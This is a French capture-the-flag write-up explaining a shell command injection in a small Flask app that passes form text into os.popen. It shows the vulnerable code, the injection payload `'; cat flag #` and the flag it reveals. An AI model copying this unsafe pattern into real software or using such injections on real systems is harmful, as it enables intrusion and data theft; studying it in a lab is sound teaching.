 # Write-up

Tout d'abord, il faut obtenir le code source à l'aide du lien qui se trouve au bas de la page.

Dans le code source, on voit que la fonction suivante est celle qui est appelée lorsqu'on soumet le formulaire:

```python
@app.route("/", methods=["POST"])
def post_index():
    text = request.form.get("text")
    cmd = f"echo '{text}' | grep -oiP 'FLAG-[abcdef0-9]+'"

    print(cmd)
    stream = os.popen(cmd)
    
    return render_template("index.html", output = stream.read())
```

La commande qui sera exécutée se trouve à la ligne 4:

```python
cmd = f"echo '{text}' | grep -oiP 'FLAG-[abcdef0-9]+'"
```

On sait que le flag se trouve dans un fichier appelé `flag`. La commande qui permet de lire un fichier sur Ubuntu est `cat`. On souhaite donc effectuer la commande `cat flag`.

Toutefois, pour détourner cette commande, on doit d'abord s'assurer que les bouts de commandes existants ne nous gêneront pas. On doit donc sortir des guillemets simples (`'`) et terminer la commande qui précède notre texte avec `;`. Ensuite, on pourra exécuter la commande qu'on veut.

Voici donc notre attaque finale:

```
'; cat flag #
```

Ce qui donnera la commande suivante:

```
echo ''; cat flag #' | grep -oiP 'FLAG-[abcdef0-9]+'
```

> Le dernier morceau de commande (`#' | grep -oiP 'FLAG-[abcdef0-9]+'`) est interprété par Bash comme un commentaire (donc ignoré), puisqu'il commence par `#`.

Avec cette attaque, le programme sort le résultat suivant:

```
FLAG-eca40c791011bb2f7830ce6343df95c5
```

